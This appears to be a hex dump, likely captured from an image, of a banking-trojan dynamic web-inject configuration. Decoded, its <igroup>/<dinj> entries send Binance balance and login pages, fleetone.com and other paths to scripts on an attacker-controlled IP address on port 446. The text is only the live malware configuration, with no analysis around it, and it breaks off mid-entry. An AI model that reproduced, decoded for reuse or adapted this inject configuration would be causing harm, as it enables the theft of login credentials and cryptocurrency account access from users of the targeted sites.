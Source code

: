 0A 3C 2F 64 69 6E 6A 3E 0A 3C 2F 69 67 72 6F 75
70 3E 0A 3C 69 67 72 6F 75 70 3E 0A 3C 64 69 6E
6A 3E 0A 3C 6C 6D 3E 2A 2F 72 63 72 64 2F 31 35
34 39 38 38 38 32 30 30 32 36 30 30 30 36 2A 3C
2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F
2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A
34 34 36 2F 72 65 73 70 6F 6E 73 65 2F 72 63 72
64 2E 70 68 70 3F 73 3D 31 35 34 39 38 38 38 32
30 30 32 36 30 30 30 36 3C 2F 68 6C 3E 0A 3C 70
72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71
3E 32 3C 2F 73 71 3E 0A 3C 2F 64 69 6E 6A 3E 0A
3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A 66 6C 65 65
74 6F 6E 65 2E 63 6F 6D 2A 3C 2F 6C 6D 3E 0A 3C
68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31
36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65
73 70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31 35 34
39 38 38 38 32 30 30 32 36 30 30 30 36 26 69 64
3D 79 58 4E 6A 41 35 6B 4B 52 49 61 6B 50 78 33
31 49 71 35 79 3C 2F 68 6C 3E 0A 3C 70 72 69 3E
31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C
2F 73 71 3E 0A 3C 69 67 6E 6F 72 65 5F 6D 61 73
6B 3E 2A 2E 63 73 73 2A 3C 2F 69 67 6E 6F 72 65
5F 6D 61 73 6B 3E 0A 3C 69 67 6E 6F 72 65 5F 6D
61 73 6B 3E 2A 2E 6A 73 2A 3C 2F 69 67 6E 6F 72
65 5F 6D 61 73 6B 3E 0A 3C 72 65 71 75 69 72 65
5F 68 65 61 64 65 72 3E 2A 74 65 78 74 2F 68 74
6D 6C 2A 3C 2F 72 65 71 75 69 72 65 5F 68 65 61
64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C 2F 69
67 72 6F 75 70 3E 0A 3C 69 67 72 6F 75 70 3E 0A
3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A 2F 72 63 72
64 2F 31 35 33 37 34 36 33 38 34 39 38 35 31 31
32 31 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74
70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E
31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65
2F 72 63 72 64 2E 70 68 70 3F 73 3D 31 35 33 37
34 36 33 38 34 39 38 35 31 31 32 31 3C 2F 68 6C
3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E
0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 2F 64 69
6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 68
74 74 70 73 3A 2F 2F 77 77 77 2E 62 69 6E 61 6E
63 65 2E 63 6F 6D 2F 75 73 65 72 43 65 6E 74 65
72 2F 62 61 6C 61 6E 63 65 73 2E 68 74 6D 6C 3C
2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F
2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A
34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68 70
3F 73 3D 31 35 33 37 34 36 33 38 34 39 38 35 31
31 32 31 26 69 64 3D 79 4E 33 32 37 44 6A 38 7A
67 59 79 52 78 4E 5A 71 52 67 4D 3C 2F 68 6C 3E
0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A
3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 69 67 6E 6F
72 65 5F 6D 61 73 6B 3E 2A 2E 63 73 73 2A 3C 2F
69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C 69 67
6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E 6A 73 2A 3C
2F 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C 72
65 71 75 69 72 65 5F 68 65 61 64 65 72 3E 2A 74
65 78 74 2F 68 74 6D 6C 2A 3C 2F 72 65 71 75 69
72 65 5F 68 65 61 64 65 72 3E 0A 3C 2F 64 69 6E
6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 68 74
74 70 73 3A 2F 2F 77 77 77 2E 62 69 6E 61 6E 63
65 2E 63 6F 6D 2F 6C 6F 67 69 6E 2E 68 74 6D 6C
3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A
2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E 31 36 32
3A 34 34 36 2F 72 65 73 70 6F 6E 73 65 2E 70 68
70 3F 73 3D 31 35 33 37 34 36 33 38 34 39 38 35